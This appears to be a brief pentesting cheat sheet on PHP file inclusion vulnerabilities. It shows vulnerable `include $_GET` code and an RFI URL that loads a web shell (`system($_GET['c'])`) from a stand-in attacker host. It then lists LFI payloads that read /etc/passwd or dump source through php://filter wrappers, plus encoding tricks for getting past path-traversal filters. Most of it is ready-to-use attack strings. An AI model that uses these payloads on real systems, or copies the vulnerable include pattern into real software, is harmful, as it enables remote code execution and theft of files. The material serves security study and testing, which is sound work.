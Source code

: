 ### what && when
useful when developers want to incorporate external asset files like images into their applications, make use of external code libraries, or reuse code that is written for a different purpose. but when user control the included file that when the vulnerability happened
### types
### RFI (remote file inclusion)
occur when the application allows arbitrary files from a remote server to be included. php sample code
```php
<?php 
$f=$_GET["page"];
include $f;
?>
```
attacker can host following file `evil.txt` and pass the link to the vuln site: `http://site.com?page=http://atacker.com/evil.txt?c=ls`
```php
<?php system($_GET['c']);?>
```
### LFI (local file inclusion)
happen when applications include files in an unsafe way, attackers need to first upload a malicious file to the local machine, and then execute it by using local file inclusion
paylaos:
```
//basic 
http://example.com/index.php?page=../../etc/passwd 
http://example.com/index.php?page=../../etc/passwd%00 
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%2500 http://example.com/index.php?page=....//....//etc/passwd 
//Wrappers 
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php http://example.com/index.php?page=php%3A%2F%2Ffilter%2Fconvert%2Ebase64%2Dencode%2Fresource%3Dindex%2Ephp 

Can be chained with a compression wrapper. http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

##### bypass path traversal 
| char | url encoding | 16-bit unicode |
| ---- | ---- | ---- |
| . | %2e | %u002e |
| / | %2f | %u2215 |
| \ | %5c | %u2216 |

|../|`..\` |
|---|---|
|%2e%2e%2f|%2e%2e%5c|
|`%2e%2e/ \|\| ..%2f` |`%2e%2e\ \|\| ..%5c` |
|..%255c|%252e%252e%255c|
